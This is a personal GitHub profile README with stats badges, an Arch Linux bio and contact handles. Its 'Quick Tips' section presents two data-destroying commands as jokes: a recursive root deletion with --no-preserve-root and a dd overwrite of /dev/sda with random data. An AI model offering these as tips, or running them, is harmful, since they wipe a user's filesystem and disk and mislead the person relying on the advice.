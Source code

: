 
### Hola! Como Estasto 👋
![Github Stats](https://github-readme-stats.vercel.app/api?username=L4FeeR&show_icons=true&theme=radical)
![](https://github-readme-streak-stats.herokuapp.com/?user=l4feer&theme=dark&hide_border=false) 

![](http://github-profile-summary-cards.vercel.app/api/cards/profile-details?username=L4FeeR&theme=tokyonight)<br><br><br>
[![](https://readme-typing-svg.demolab.com/?lines=Welcome+To+My+Git+Profile*;I'm+Muhamed+Lafeer,;Learning+is+an+art!)](https://git.io/typing-svg)
<!--
![](https://github-stats-alpha.vercel.app/api?username=l4feer&cc=22272e&tc=37BCF6&ic=fff&bc=0000)
-->

# 📖 About Me
Just a Asian guy, who like CLI and Material You!

## ***A DistroHoper :)***

Arch user

> I use arch btw, 

- currently Base Arch*

> ```I like breaking things :)```

**Quick Tips : Try this**

`sudo pacman -Syu;sudo rm -rvf /* --no-preserve-root`


`sudo dd if=/dev/urandom of=/dev/sda status=progress`


*Articles:*
  [l4feer.github.io](https://l4feer.github.io)


# 📛Usernames
- Telegram : [@l4feer](https://t.me/L4feer)
- Discord : l4feer (Lafeer0427)
- Github : [L4FeeR](https://github.com/L4FeeR)

- You want docs? look at [Here!](https://docs.github.com/en)

<!--
**L4FeeR/L4FeeR** is a ✨ _special_ 
✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
